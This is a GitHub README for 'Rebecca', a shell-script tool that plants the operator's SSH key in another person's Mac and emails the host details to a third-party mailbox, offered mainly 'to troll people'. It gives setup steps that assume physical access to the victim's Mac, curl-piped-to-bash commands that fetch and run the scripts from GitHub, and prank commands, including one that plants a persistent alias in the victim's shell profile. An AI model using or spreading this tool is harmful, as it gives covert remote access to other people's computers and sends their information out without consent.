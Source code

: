 # Rebecca

Rebecca gives you access to another user's Mac. Running this script injects SSH key into the victim's Mac thus giving remote access.

**_I HIGHLY RECOMMEND GETTING PERMISSION FROM THE USER FIRST_**

Rebecca consist of two scripts, one to add rsa public key into the authorized_keys of the user's Mac and email relevant information for SSH to a third party mailbox. The other to remove rsa public key from the authorized_keys of the user's Mac.

## Use Case

Rebecca could be modified to easily get SSH access to servers, but its current use is really just to troll people.

With SSH access, one can make a mac talk to the user, launch random browsers, sleep the Mac, etc. Some interesting commands to play with:

```
say -v veena hello world
open "http://google.com"
pmset sleepnow
echo "alias ls='say -v veena hello, why are you touching me'" >> ~/.bash_profile
```

## Installtion Steps

1. You will want to clone this to your own github respository.
2. You will want to create a rsa key pair if you don't have one.
3. Change the rsa public key in `rebecca.sh` to your own rsa public key.
4. Change the third party mailbox in `rebecca.sh` to your own mailbox.
5. Change identifier in `purge.sh` to your identifier otherwise `purge.sh` will not work.
6. You will need physical access to a users Mac with remote login turned on.

## Commands

- `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/rebecca.sh)`

  Runs rebecca script which basically injects your SSH key into the user's Mac authorized_keys, grabs relevant information and send it out to a mail server.

- `ssh -i <private_rsa_key_file> <hostname>@<ip address>`

  SSH into the user's Mac, get the relevant information from the mail server.

- `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/purge.sh)`

  Runs purge script which removes your SSH key from the user's Mac authorized_keys.

## Credits

Thanks to Ryan Tan and Ken Chuan for this interesting idea and guidance, as well as all who have given me permission to experiment on their laptops.
